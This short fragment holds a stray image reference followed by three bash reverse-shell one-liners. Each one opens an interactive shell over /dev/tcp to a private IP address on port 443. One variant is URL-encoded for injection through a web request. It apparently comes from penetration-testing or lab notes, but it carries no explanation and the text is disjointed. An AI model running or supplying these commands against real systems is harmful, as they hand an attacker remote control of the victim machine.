 bash -i >& /dev/tcp/10.10.14.237/443 0>&1"
"bash -i >%26 /dev/tcp/192.168.1.39/443 0>%261"

bash -c 'exec bash -i >& /dev/tcp/10.10.14.237/443 0>&1'